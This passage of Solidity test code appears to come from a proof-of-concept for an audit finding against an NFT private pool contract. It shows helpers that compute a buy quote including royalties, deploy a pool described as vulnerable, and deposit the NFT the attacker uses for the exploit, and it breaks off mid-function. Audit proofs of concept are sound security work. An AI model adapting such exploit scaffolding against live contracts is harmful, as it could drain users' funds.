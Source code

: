 ```solidity
        tokenIds[0] = tokenId;

        // Calculate total amount to be paid.
        (uint256 baseTokenAmount, uint256 fee1, uint256 fee2) = privatePool
            .buyQuote(tokenIds.length * 1e18);

        // NFT's sale price is excluding the fees.
        uint256 salePrice = baseTokenAmount - fee1 - fee2;

        // Retrieve the royalty that will be paid.
        (, royalty) = nft.royaltyInfo(tokenId, salePrice);

        // The total input ETH amount.
        baseTokenAmount = baseTokenAmount + royalty;

        // Return the needed argument struct array.
        buys = new EthRouter.Buy[](1);
        buys[0] = EthRouter.Buy({
            pool: payable(address(privatePool)),
            nft: address(nft),
            tokenIds: tokenIds,
            tokenWeights: new uint256[](0),
            proof: PrivatePool.MerkleMultiProof(
                new bytes32[](0),
                new bool[](0)
            ),
            baseTokenAmount: baseTokenAmount,
            isPublicPool: false
        });
    }

    /**
     * @notice Deploy and initialize an instance of the vulnerable private pool implementation.
     */
    function _deployPrivatePool() internal {
        // Deploy pool implementation.
        privatePool = new PrivatePool(
            address(factory),
            address(royaltyRegistry),
            address(stolenNftOracle)
        );

        // Initialize pool instance.
        privatePool.initialize(
            address(0),
            address(nft),
            VIRTUAL_BASE_TOKEN_RESERVES,
            VIRTUAL_NFT_RESERVES,
            0,
            0,
            MERKLE_ROOT,
            false,
            true
        );
    }

    /**
     * @notice Transfer the NFT to the pool to simulate the private pool owner has deposited it.
     * @param _targetTokenId The specific NFT that will be used by the attacker to perform the exploit.
     */
    function _depositNft(uint256 _targetTokenId) internal {
        address owner = nft.ownerOf(tokenId);
```